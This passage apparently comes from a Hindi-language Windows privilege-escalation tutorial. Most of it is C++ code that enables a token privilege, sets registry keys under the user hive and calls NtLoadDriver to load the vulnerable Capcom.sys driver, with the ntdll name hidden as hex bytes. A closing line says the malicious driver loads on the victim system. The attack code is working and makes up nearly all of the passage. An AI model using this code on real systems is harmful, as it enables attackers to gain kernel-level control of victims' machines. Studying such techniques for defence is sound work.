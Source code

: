 ```c
&luid))        // receives LUID of privilege
{
printf("LookupPrivilegeValue error: %un", GetLastError());
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;

if (bEnablePrivilege) {
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
}

// Enable the privilege or disable all privileges.
if (!AdjustTokenPrivileges(
hToken,
FALSE,
&tp,
sizeof(TOKEN_PRIVILEGES),
(PTOKEN_PRIVILEGES)NULL,
(PDWORD)NULL))
{
printf("AdjustTokenPrivileges error: %x", GetLastError());
return FALSE;
}

//system("cmd");
// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
std::cout << "[+] Set Registry Keys" << std::endl;
NTSTATUS st1;
UNICODE_STRING pPath;
UNICODE_STRING pPathReg;
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
HMODULE hObsolete = GetModuleHandleA(NTDLL);
*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

RtlInitUnicodeString(&pPath, pPathSource);
RtlInitUnicodeString(&pPathReg, pPathSourceReg);
st1 = NtLoadDriver(&pPathReg);
std::cout << "[+] value of st1: " << st1 << "\n";
if (st1 == ERROR_SUCCESS) {
std::cout << "[+] Driver Loaded as Kernel..\n";
std::cout << "[+] Press [ENTER] to unload driver\n";
}

getchar();
st1 = NtUnloadDriver(&pPathReg);
if (st1 == ERROR_SUCCESS) {
std::cout << "[+] Driver unloaded from Kernel..\n";
std::cout << "[+] Press [ENTER] to exit\n";
getchar();
}

return 0;
}
```
एक बार ऊपर दिए गए कोड को कंपाइल और निष्पादित किया जाता है, हम देख सकते हैं कि हमारा दुराचारी `Capcom.sys` ड्राइवर पीड़ित सिस्टम पर लोड हो जाता है:
